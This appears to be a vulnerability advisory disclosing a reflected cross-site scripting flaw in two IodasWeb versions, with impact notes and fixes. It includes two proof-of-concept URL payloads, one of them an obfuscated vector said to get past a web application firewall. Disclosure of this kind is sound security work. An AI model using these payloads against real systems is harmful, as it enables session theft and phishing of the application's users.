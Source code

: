 
# Reflected XSS

## 🛠️ Description

A vulnerability pertaining to **Reflected Cross-Site Scripting (XSS)** has been identified in multiple versions of the **IodasWeb** application.

- **Severity:** Medium

---

## ✅ Confirmed Affected Versions

- `v7.2-LTS.4.1-JDK7`
- `v7.2-RC3.2-JDK7`

---

## 💣 Payloads

### 🚨 Basic Payload

```html
WEBSITE.COM/astre/iodasweb/app.jsp?action=<img src=x onerror=alert(1)>
```
![Alt Text](1.png)
![Alt Text](2.png)
![Alt Text](4.png)
![Alt Text](3.png)

### 🕵️ Obfuscated Payload

In other versions of the application, the WAF may block the standard payload. However, it's still possible to inject HTML containing a malicious link using the following obfuscated vector:

```html
WEBSITE.COM/astre/iodasweb/app.jsp?action=<image/src=\\YOUR-LINK-WITHOUT-HTTP>
```
![Alt Text](5.png)
![Alt Text](6.png)

---

## ⚠️ Impact

The identified vulnerability results from **insufficient input validation** and **improper output encoding**, leading to a **Reflected Cross-Site Scripting (XSS)** issue. This allows an attacker to craft a malicious URL containing executable JavaScript code, which is reflected in the application’s response and executed in the victim’s browser.

### 🎯 Potential Consequences

- Actions performed on behalf of authenticated users
- Theft of session tokens
- UI defacement
- Redirection to malicious websites
- Social engineering/phishing attacks
- Unauthorized access to user accounts

> This significantly undermines user trust and can lead to data compromise if exploited.

---

## 🧪 Recommendation

It's recommended to:
- Sanitize and properly encode all user-supplied input.
- Implement Content Security Policy (CSP).
- Consider enabling the `HttpOnly` and `Secure` flags on cookies.
- Review the WAF settings and behavior across all application versions.

---
